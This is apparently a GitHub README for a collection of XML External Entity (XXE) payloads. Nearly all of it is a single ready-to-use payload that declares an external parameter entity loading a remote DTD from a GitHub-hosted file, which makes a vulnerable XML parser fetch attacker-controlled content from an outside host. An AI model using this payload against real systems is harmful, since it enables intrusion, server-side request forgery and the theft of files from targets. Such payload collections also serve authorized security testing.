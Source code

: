 # XXE-Payloads
Quick access to XXE Payloads

XXE:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://raw.githubusercontent.com/mbadanoiu/XXE-Payloads/main/4.xml">
%sp;
]>
```
